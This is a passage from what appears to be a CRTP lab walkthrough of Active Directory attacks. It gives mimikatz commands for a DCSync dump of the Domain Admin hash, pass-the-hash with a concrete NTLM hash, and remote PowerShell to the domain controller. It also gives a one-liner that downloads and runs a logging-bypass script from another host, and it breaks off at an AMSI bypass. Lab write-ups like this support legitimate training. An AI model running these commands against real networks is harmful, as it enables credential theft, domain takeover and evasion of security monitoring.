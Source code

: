 13. Now that we have the private TGS in the ldap service, we will run mimikatz and get the private hash in the Domain Admin via this command
```
lsadump::dcsync /user:cyber\Administrator
```
![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/ee8ab9cd-2ad8-4bbd-8356-5fade3a5c5a2)

14. Now we will set up the pass the hash technique using mimikatz so that we run a PowerShell session with Domain Admin privileges using this command.
```
sekurlsa::pth /user:Administrator /ntlm:311fb27b1e766dac7357f4270f4112df /domain:cyber.local /run:powershell.exe
```
15. After executing the command, a powershell session will be opened for us with Domain Admin privileges. All we have to do is execute this command in order to access the target device.
```
Enter-PSSession jehaddc.cyber.local
```
![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/2e859f3e-1943-4296-862e-846e1033966d)

### Attack 2
1. Bypass Script Block login
```
iex (iwr http://10.0.10.16/sbloggingbypass.txt-UseBasicParsing)
```
2. Bypass AMSI
```
